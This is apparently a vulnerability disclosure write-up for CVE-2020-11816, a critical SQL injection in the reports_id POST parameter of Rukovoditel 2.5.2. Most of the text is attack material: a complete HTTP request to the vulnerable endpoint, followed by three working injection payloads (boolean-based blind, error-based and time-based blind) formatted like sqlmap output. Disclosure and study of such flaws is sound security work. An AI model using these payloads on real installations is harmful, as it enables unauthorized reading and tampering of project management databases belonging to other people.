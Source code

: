 ```yaml
---
title: Rukovoditel | SQL Injection reports_id (POST) | CVE-2020-11816
author: Fatih Çelik
date: 2020-01-15 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Vendor**: [https://sourceforge.net/projects/rukovoditel/](https://sourceforge.net/projects/rukovoditel/)

**Version**: 2.5.2

**Vulnerability**: SQL Injection

**CVE**: CVE-2020-11816

**CVSS 3.x Base Score**: **[9.8 CRITICAL](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2020-11816&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)**

Rukovoditel is a free web-based open-source project management application. A far cry from traditional applications, Rukovoditel gives users a broader and extensive approach to project management. Its customization options allow users to create additional entities, modify and specify the relationship between them, and generate the necessary reports. The platform enables users to craft their own application that is specifically tailored for their activity (CRM, ERP, HRM, WMS, etc.).

Rukovoditel Version 2.5.2 is affected by SQL injection vulnerability because of improper handling of reports_id (POST) parameter.

**Request,**

```
POST /ruko/index.php?module=items/listing HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/ruko/index.php?module=reports/view&reports_id=68%27
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 330
Connection: close
Cookie: cookie_test=please_accept_for_session; sid=3jnq6vg6ovl2cq0ojpsff4vaol; hblid=9P5zBGVwXwPEgj9L3m39N0U0I0A6O221; olfsk=olfsk14190220759411198; xoadmstyle=silver

redirect_to=report_68&path=23&reports_entities_id=23&reports_id=68&listing_container=entity_items_listing68_23&page=1&search_keywords=cvjm%C3%B6nb%C3%B6m%C3%B6nm&use_search_fields=184&search_in_comments=false&search_in_all=false&search_type_and=false&search_type_match=false&search_reset=&listing_order_fields=&has_with_selected=1
```

**Payloads,**

```
Parameter: reports_id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: redirect_to=report_68&path=23&reports_entities_id=23&reports_id=68' RLIKE (SELECT (CASE WHEN (9654=9654) THEN 68 ELSE 0x28 END))-- AlKt&listing_container=entity_items_listing68_23&page=1&search_keywords=cvjm%C3%B6nb%C3%B6m%C3%B6nm&use_search_fields=184&search_in_comments=false&search_in_all=false&search_type_and=false&search_type_match=false&search_reset=&listing_order_fields=&has_with_selected=1

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: redirect_to=report_68&path=23&reports_entities_id=23&reports_id=68' AND (SELECT 8112 FROM(SELECT COUNT(*),CONCAT(0x716b706a71,(SELECT (ELT(8112=8112,1))),0x7162787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- rVyr&listing_container=entity_items_listing68_23&page=1&search_keywords=cvjm%C3%B6nb%C3%B6m%C3%B6nm&use_search_fields=184&search_in_comments=false&search_in_all=false&search_type_and=false&search_type_match=false&search_reset=&listing_order_fields=&has_with_selected=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)

    Payload: redirect_to=report_68&path=23&reports_entities_id=23&reports_id=68' AND (SELECT 4324 FROM (SELECT(SLEEP(5)))KySi)-- Pfwf&listing_container=entity_items_listing68_23&page=1&search_keywords=cvjm%C3%B6nb%C3%B6m%C3%B6nm&use_search_fields=184&search_in_comments=false&search_in_all=false&search_type_and=false&search_type_match=false&search_reset=&listing_order_fields=&has_with_selected=1
```
